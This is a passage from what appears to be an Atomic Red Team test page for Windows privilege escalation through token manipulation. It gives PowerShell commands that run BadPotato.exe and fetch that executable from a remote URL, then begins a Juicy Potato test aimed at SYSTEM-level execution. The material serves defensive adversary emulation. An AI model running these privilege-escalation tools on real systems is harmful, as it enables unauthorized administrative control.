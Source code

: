 **Supported Platforms:** Windows


**auto_generated_guid:** 9c6d799b-c111-4749-a42f-ec2f8cb51448






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
Start-Process .\BadPotato.exe notepad.exe
Start-Sleep -Second 20
Stop-Process -Name "notepad" -force -erroraction silentlycontinue
Stop-Process -Name "BadPotato" -force -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
taskkill /f /im notepad.exe
```



#### Dependencies:  Run with `powershell`!
##### Description: BadPotato.exe must exist in the temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\BadPotato.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\BadPotato.exe" "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1134.001/bin/BadPotato.exe?raw=true"
```




<br/>
<br/>

## Atomic Test #5 - Juicy Potato
This Atomic utilizes Juicy Potato to obtain privilege escalation. 
Upon successful execution of this test, a vulnerable CLSID will be used to execute a process with system permissions.
This tactic has been previously observed in SnapMC Ransomware, amongst numerous other campaigns. 
[Reference](https://blog.fox-it.com/2021/10/11/snapmc-skips-ransomware-steals-data/)

**Supported Platforms:** Windows
